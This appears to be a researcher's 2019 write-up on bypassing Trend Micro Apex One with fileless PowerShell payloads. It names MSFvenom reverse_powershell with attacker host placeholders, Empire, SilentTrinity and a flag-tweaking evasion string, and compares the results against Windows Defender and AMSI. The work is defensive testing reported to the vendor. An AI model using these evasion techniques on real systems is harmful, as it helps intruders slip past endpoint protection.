 # Bypassing Trend Micro Apex One

![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

## Background

Here's the [solution brief](www.trendmicro.com/en_us/business/products/user-protection/sps/endpoint.html?modal=overview-apex-f2049a) about Apex One.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff.

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, and then checked again for the hell of it. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end.

![bms](Post%20Images/TMAO-Bypass-imgs/misc-imgs/BMS.PNG)
![scs](Post%20Images/TMAO-Bypass-imgs/misc-imgs/SCS.PNG)

## Testing

I wanted to test Apex One to see if it works as advertised, rather than setting it up, changing necessary settings and forgetting about it. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell via an exploit, recovered creds that allows for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to skate around Apex. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was alerting and blocking anything malicious that touched the disk. However, things started going downhill when I started testing file-less payloads or ones that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would alert on it. All I wanted to do was to make sure it was stopping known or old payloads and tools.

### Tools and payloads that were used to bypass Apex One

* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


## MSFVenom cmd/windows/reverse_powershell

![msfv_1](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_kalivm.PNG)
![msfv_2](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod.PNG)
![msfv_3](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfvenom_payload.PNG)
![msfv_4](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass.PNG)
![msfv_6](Post%20Images/TMAO-Bypass-imgs/MSFvenom-imgs/msfv_bypass2.PNG)

## Observations & Anomalies

## PowerShell Empire

I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on having Apex detect the MSFvenom cmd/windows/reverse_powershell payload). Apex received the patch on May 8th and I was still able to get around Apex with Empire. The relevant signature on detection is `HTTP-EMPIRE-3`. On the 23rd of May, Apex had for the first time in my environment, successfully prevented the callback to Empire. Everything was fine and dandy until on June 5th, I tested Apex again for the sake of consistency. Apex once again failed to prevent the callback the Empire instance running on my Kali machine. At this time I noticed that the IP on my Kali box had changed. Thus, began the trend of inconsistencies.

While testing after the 5th of June, I noticed three things. The first one is that changing the IP of my Kali machine looked like it had some role in Empire being successful again, but I highly doubt it would be that simple to outmaneuver and EDR solution like that. The second anomaly was the effect of base64 encoded payloads. When using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec, Apex One was alerting on it. Apex seems to ignore it if I just straight up generate the payload with MSFvenom with no encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. Before the May 8th patch, the opposite seemed to be occurring when using the base64 encoded PowerShell payload generated from the launcher command in Empire. With this in mind, I decided to decode the base64 encoded payload Empire produced. It seemed to have worked for a short while before Apex catched on and started blocking it.

The third and final anomaly that has been the most consistent in getting me around Apex since the update is simply changing the [flags](https://docs.microsoft.com/en-us/powershell/module/Microsoft.PowerShell.Core/About/about_PowerShell_exe?view=powershell-5.1). These flags are used with the `powershell` command before the base64 encoded payload body. Based on my observations during testing, Apex is very inconsistent when alerting on this method. Sometimes it will alert if I leave the default flags `powershell -w hidden -noP`. Sometimes it will alert if I tweak them. Sometimes it won't alert either way. I'm not exactly sure why this is though. My guess is that the *'machine learning'* component of Apex is not up to snuff and could use some more work. I even used some of the modules that Empire provided thinking that Apex would alert on those. Unfortunately, when using some of the modules like `powershell/privesc/ask`, Apex did not alert on any of them.

#### Default payload generation

![PSE_default_bypass](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/default2.PNG)
![PSE_default_privesc](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/privesc_success2.PNG)

#### Payload tweak & modification

Note the following: `powershell -executionpolicy unrestricted -nologo -noexit -noninteractive -encoded`

![PSE_mod](Post%20Images/TMAO-Bypass-imgs/Empire-imgs/pse_tweak.PNG)


## A Shocking Revelation

During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1803 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute trash, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1803 were able to block almost everything Apex One wasn't. It even blocked the aforementioned [PowerShell oneliner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) from the GitHub link.

![Github One-liner](Post%20Images/TMAO-Bypass-imgs/misc-imgs/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I did receive an error message telling me that the PowerShell stager with the embedded interpreter for the Boo Lang or Iron Python based payload and the MSBuild.xml stagers failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

# Updates

## Update #1: June 21st 2019

1. Currently, Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory.
2. Currently, Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via a .NET language, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.

## Update #2: June 28th 2019

Apex One seems to be consistently alerting on PowerShell Empire payloads in which I don't change or modify the default launcher value when setting up a listener. The same can also be said for payloads in which I've modified the flags with for the launcher command. It still does not explain the inconsistencies in detecting that were observed during testing. I should note that there was an update for the agent and the signature version shows `15.201.00`.
